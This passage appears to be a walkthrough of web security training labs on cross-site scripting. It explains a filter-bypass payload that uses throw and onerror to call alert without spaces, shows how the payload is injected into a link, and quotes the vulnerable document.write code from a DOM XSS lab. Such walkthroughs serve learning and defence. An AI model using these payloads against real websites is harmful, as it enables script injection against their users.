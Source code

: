                     The exploit uses exception handling to call the <code>alert</code> function with arguments. The <code>throw</code> statement is used, separated with a blank comment in order to get round the no spaces restriction. The <code>alert</code> function is assigned to the <code>onerror</code> exception handler.
                </p>
                <p>
                    As <code>throw</code> is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the <code>throw</code> statement can be used. We then need to call this function, so we assign it to the <code>toString</code> property of <code>window</code> and trigger this by forcing a string conversion on <code>window</code>.
                </p>
            </div>
        </div>

```html
<!--payload: &'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:' -->

<!--result-->
<div class="is-linkback">
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d4%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>

<!--decode-->
<div class="is-linkback">
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=4&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window '',{x:''}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```



### **DOM XSS**

#### DOM XSS in document.write sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
>
> To solve this lab, perform a cross-site scripting attack that calls the alert function

Vulnerable code

```javascript
<script>
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {trackSearch(query);}
</script>
```
